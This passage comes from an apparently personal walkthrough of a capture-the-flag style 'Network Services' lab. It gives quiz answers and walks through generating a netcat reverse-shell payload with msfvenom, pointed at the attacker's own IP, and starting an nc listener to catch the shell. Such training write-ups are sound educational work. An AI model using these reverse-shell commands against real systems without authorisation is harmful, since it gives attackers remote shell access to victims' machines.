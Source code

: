     We can see on our tcpdump output that the ping was received:

    ![tcpdump ping result](/IMAGES/Network%20Services/tcpdump.png)

#### Generating Reverse Shell Payload Using msfvenom:

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

- -p = payload
lhost = our local host IP address (this is your machine's IP address)
- lport = the port to listen on (this is the port on your machine)
- R = export the payload in raw format

- What word does the generated payload start with?

    #### Answer: `mkfifo`

    #### Process:

    ![msfvenom](/IMAGES/Network%20Services/payload%20start%20with.png)

    Here we used our vpn address

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

`nc -lvnp [listening port]`

- What would the command look like for the listening port we selected in our payload?
